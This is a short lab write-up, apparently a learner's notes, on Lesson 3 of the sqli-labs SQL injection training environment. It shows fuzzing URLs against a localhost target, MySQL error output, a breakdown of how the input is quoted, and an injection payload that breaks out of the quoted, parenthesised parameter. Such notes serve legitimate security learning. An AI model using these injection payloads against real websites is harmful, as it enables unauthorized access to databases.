




#### 3. Lesson 3 - ``GET - Error based - Single Quote with twist - String``

###### Fuzzing

```
http://127.0.0.1/sqli-labs/Less-3/
http://127.0.0.1/sqli-labs/Less-3/?id=1
http://127.0.0.1/sqli-labs/Less-3/?id=1'
```







###### Vulnerability Breakdown

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```

```
'1'') LIMIT 0,1' at line 1
'     1'    ') LIMIT 0,1         '
```

```
http://127.0.0.1/sqli-labs/Less-3/?id=1\
```


```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\') LIMIT 0,1' at line 1
```

```
''1\') LIMIT 0,1' at line 1
''1\') LIMIT 0,1'
'   '1\') LIMIT 0,1   '
```

```sql
select login_name, password from table where id=('our_input')
```

###### Fix the query

```
http://127.0.0.1/sqli-labs/Less-3/?id=1')--+
```

